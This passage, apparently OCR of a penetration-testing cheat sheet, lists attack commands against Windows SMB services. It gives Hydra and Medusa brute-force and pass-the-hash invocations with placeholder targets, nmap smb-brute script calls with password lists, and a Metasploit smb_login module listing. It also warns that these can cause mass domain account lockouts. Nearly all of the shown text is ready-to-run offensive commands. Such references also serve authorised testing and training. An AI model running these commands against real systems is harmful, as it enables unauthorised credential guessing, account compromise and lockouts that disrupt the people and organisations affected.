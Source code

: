 ```
$ hydra -V -l <username> -p <nt_hash> -m "" <IP> smb

$ hydra -V -l <username> -p <lm_hash>:<nt_hash> <IP> -m "LocalHash" smb
```

### 3.2 - Medusa

```
$ medusa -u <username> -p <password> -h <IP> -M smb
```

Pass the Hash

> [!WARNING]
> Be careful of mass domain account lockout with this module. For example, assume you are checking several accounts against many domain workstations. If you are using either the `GROUP:DOMAIN` or the `GROUP:BOTH` option and these accounts do not exist locally on the workstations, each workstation will in turn check their respective domain controller. This could cause a bunch of lockouts. 

```
$ medusa -u <username> -p <lm_hash>:<nt_hash> -h <IP> -M smbnt -m PASS:HASH
```

### 3.3 - Network Mapper

```
$ nmap -p 445 -Pn -n --script smb-brute --script-args "userdb=users.lst,passdb=passwords.lst" [--script-args smbtype=<version>] <IP>

$ nmap -p 445 -Pn -n --script smb-brute --script-args "smbusername='Administrator',passdb=passwords.lst" [--script-args smbtype=<version>] <IP>
```

### 3.4 - Metasploit

You can actually use NTLM hashes to pass the hash.

```
msf > use auxiliary/scanner/smb/smb_login

msf auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
```